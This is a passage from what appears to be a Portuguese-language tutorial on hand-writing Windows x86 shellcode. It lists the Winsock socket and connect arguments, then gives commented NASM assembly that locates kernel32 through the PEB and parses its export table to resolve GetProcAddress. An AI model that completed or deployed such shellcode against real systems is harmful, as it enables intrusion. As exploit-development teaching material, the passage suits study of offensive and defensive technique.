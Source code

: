 Esta função precisa de todos os argumentos, portanto é preciso enviá-los em ordem inversa para a *stack* antes de chamá-la. **Lendo o manual** temos os seguintes argumentos:

- dwFlags=NULL
- g=NULL
- lpProtocolInfo=NULL
- o protocolo precisa ser IPPROTO_TCP portanto=6
- o tipo precisa ser SOCK_STREAM portanto=1
- a família de endereço precisa ser AF_INET portanto=2

A função [Connect](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect) estabelece uma conexão com o *socket* especificado.

```cpp
int WSAAPI connect(
  [in] SOCKET         s,
  [in] const sockaddr *name,
  [in] int            namelen
);
```

#### O *shellcode*

Inicialmente, utilizaremos boa parte da base do exemplo anterior, porém, ao invés de procurarmos pela função `WinExec()`, procuraremos pela `GetrProcAddress()` com o cuidado para não armazenarmos nada em `EAX` desta vez:

```nasm
global _start

section .text

_start:

getKernel32:

    xor eax, eax            ;zerando o registrador
    mov eax, [fs:0x30]      ;movendo o offset da PEB de fs (File Segment) para eax
    mov eax, [eax + 0x0c]   ;movendo o offset da LDR (PEB + 0x00c) para eax
    mov eax, [eax + 0x14]   ;movendo o offset da InMemoryOrderModuleList (LDR + 0x014) para eax
    mov eax, [eax]          ;carregando o endereço efetivo do primeiro modulo - o executavel em si
    mov eax, [eax]          ;carregando o endereço efetivo do segundo modulo - ntdll.dll
    mov ebx, [eax + 0x10]   ;carregando o endereço base do terceiro modulo - kernel32.dll

getProcAddress:

    ;enviando nome da função para stack
    xor edx, edx                ;zerando o registrador
    push 0x4e4e7373             ;movendo NNss para stack
    sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
    push 0x65726464             ;movendo erdd para stack
    push 0x41636f72             ;movendo Acor para stack
    push 0x50746547             ;movendo PteG para stack
    ;encontrando o endereço da Export Table e armazenando em edx
    mov edx, [ebx + 0x3c]       ;conteudo de 0x3c é f8 e foi movido para edx
    add edx, ebx                ;adicionado o endereço base da kernel32 a f8
    mov edx, [edx + 0x78]       ;adicionado 0x78 (170 - f8) para obter o RVA de Image Export Directory
    add edx, ebx                ;adicionado o endereço base da kernel32 para obter o endereço base de Image Export Directory
    ;encontrando o endereço da Export Name Pointer table e armazenando em ecx
    mov ecx, [edx + 0x20]       ;adicionadno 0x20 para obter o RVA da Export Name Pointer Table
    add ecx, ebx                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Name Pointer Table
    mov [ebp-4], ecx            ;movendo o endereço base de Export Name Pointer Table para a variavel [ebp-4]
```